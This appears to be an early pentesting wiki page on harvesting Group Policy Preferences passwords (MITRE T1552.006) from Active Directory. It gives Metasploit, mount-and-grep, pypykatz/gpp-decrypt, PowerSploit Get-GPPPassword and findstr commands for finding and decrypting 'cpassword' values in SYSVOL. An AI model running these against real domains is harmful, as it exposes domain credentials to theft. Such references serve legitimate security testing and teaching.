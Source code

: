```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# 🛠️ Group Policies Preferences

## Theory

GPP \(Group Policy Preferences\) passwords

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Tip : since the following operations require mounting of the SYSVOL share, it can't be done through a docker environment

msfconsole or manually finding them by mounting and grep, or accessing and manually open everything

```bash
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set RHOSTS $DOMAIN_CONTROLLER
msf auxiliary(smb_enum_gpp) > set SMBDomain $DOMAIN
msf auxiliary(smb_enum_gpp) > set SMBUser $DOMAIN_USER
msf auxiliary(smb_enum_gpp) > set SMBPass $DOMAIN_PASSWORD
msf auxiliary(smb_enum_gpp) > run
```

or manually mount and grep

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
must run in a authenticated context, see [impersonation](../impersonation.md)

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a domain controller for groups.xml, scheduledtasks.xml, services.xml and datasources.xml and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

or manually with findstr

```bash
findstr /S /I cpassword \\$DOMAIN_CONTROLLER\sysvol\*.xml
```

or manually with use and open everything

```bash

```
{% endtab %}
{% endtabs %}


